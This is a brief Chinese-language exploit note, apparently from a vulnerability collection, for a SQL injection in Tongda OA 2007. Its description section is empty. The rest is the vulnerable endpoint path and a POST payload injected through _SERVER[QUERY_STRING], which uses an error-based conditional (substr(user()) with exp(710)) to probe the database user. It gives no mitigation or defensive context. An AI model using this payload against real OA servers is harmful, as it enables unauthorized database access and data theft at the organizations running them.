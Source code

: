 # 通达oa 2007 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

通达oa 2007

## 三、复现过程

```
http://www.baidu.com/general/document/index.php/setting/keywords/index

```

post提交

```
_SERVER[QUERY_STRING]=kname=1%2Band@``%2Bor%2Bif(substr(user(),1,4)=root,1,exp(710))#

```

